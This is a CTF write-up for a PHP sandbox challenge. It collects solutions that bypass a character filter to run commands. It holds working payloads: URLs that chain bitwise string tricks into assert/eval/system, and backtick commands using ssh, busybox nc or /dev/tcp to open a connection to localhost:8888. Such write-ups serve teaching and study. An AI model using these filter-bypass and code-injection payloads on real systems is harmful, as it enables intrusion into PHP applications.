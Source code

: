 # URL
[l4w.pw/🤔/](http://l4w.pw/🤔/)

# Type
PHP CTF-style challenge.

How to construct command following the rules.

Trick to run weird command or abusing PHP syntax.

# Solution
This challenge came by when I was solving a PHP sandbox challenge which has limited characters/blacklist functions/...

I left backstick, to see amazing tricks from you guys.

All of them can be found at: 

There are serveral solutions:
## Run multiple commands which does following steps:
    * Create a temporary file containing chunks (by using: printf/echo/...)
    * Run the file, to connect localhost:8888 (using python or bash with /dev/tcp/...)
    * See nyan/orange/kaibro/pablo sol.
### Abusing ssh / busybox
It ... surprised me 
    * ```die(`ssh -v 0 -p 888\%0a8 2>&1`);```
    * ```die(`bus\yb\ox nc 0:888\8`);```
    * Using `ssh` and blackslash (See `huyphan` sol)
### PHP syntax abusing
By using bitwise `&`, we can make a string following the rule regexp `\w{4}`, then use `{` as a name of variable `${}`, also access array index `$array{index}`
    * `http://l4w.pw/%F0%9F%A4%94/?%E2%81%A3=$a=${_GE%d4%26_GE%7f};$a{0}($a{1});&0=assert&1=eval($_GET[2]);&2=echo%20123;`
    * Also see kad96/fa_boy/tsu solutions.
    * `http://l4w.pw/🤔/index.php?0=system&1=busybox nc 127.0.0.1 8888&%E2%81%A3=$b=_GE;$b{3}=T;$$b{0}($$b{1});` (From tiengiang, looks like he's the first one who found out `busybox` can be used...)
